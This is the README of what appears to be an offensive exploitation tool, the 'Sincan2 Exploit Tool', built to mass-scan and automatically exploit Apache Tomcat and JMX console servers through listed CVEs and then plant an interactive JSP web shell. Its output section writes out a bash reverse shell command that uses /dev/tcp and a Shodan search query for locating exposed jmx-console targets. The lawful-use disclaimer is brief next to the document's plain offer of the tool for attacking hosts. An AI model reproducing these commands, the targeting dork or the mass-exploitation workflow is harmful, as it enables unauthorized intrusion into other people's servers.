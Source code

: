 # 🛠️ Sincan2 Exploit Tool v3.4.1

> **by MHL TEAM**  
> Framework eksploitasi interaktif untuk vektor Java Web Console, Apache Tomcat, dan berbagai CVE modern.

![Screenshot](demo.png)
![Screenshot](demo2.png)

---

## 🚀 Fitur Utama

- 🎯 Scan satu IP atau massal dari file
- 🧠 Deteksi CVE modern secara otomatis
- 💣 Eksploitasi otomatis shell JSP interaktif
- 📁 Stateful scanning: hasil sukses disimpan & IP dihapus

---

## 🔍 Dukungan CVE

- CVE-2022-0853 — ROP Memory Leak  
- CVE-2023-5379 — Undertow Overflow  
- CVE-2023-1397 — DoS 8MB  
- CVE-2023-6236 — Spoofed JSON  
- CVE-2025-24813 — Tomcat Path Traversal
- CVE-2025-31651 - New ADD 11-06-2025

---

## 📦 Cara Pakai

```bash
bash sodok.sh
```

Ikuti menu interaktif:

- `[1]` Scan satu IP
- `[2]` Scan dari file (`koped.txt`)
- `[3]` Keluar

---

## 🧾 Output Shell

```bash
Target Shell: http://IP/jexws4/jexws4.jsp
Reverse Shell: /bin/bash -i >& /dev/tcp/IPMU/PORT 0>&1
Dork : cari target nya dus : https://www.shodan.io/search?query=%22jmx-console%22+country%3A%22CN%22
```

---

## ⚠️ Disclaimer

Tool ini hanya untuk penggunaan sah dalam penetration testing & edukasi.  
Segala penyalahgunaan adalah tanggung jawab pengguna.

---

## 🤝 Kontribusi

BY Sincan2 MHL Team.

---

## 📫 Kontak

📧 Tim MHL: `sincan2@gmail.com`  
🔗 GitHub: [github.com/sincan2](https://github.com/sincan2)
